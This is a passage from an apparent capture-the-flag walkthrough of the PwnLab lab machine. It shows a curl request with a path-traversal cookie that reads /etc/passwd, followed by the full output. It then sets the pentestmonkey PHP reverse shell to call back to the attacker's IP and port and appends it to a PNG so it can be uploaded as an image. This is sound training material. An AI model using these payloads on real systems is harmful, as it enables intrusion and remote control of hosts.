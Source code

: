 ```bash
root@kali:~$ curl --cookie 'lang=../../../../etc/passwd' 192.168.179.176
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
john:x:1000:1000:,,,:/home/john:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
kane:x:1003:1003:,,,:/home/kane:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
...
```

We copy the pentestmonkey reverse shell to our current directory, change the IP address and port and attach the reverse shell to an image.

```bash
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php 
root@kali:~$ cat shell.php >> tohru.png 
```

Then we upload the image.

![](/assets/images/pwnlab/screenshot-5.png)

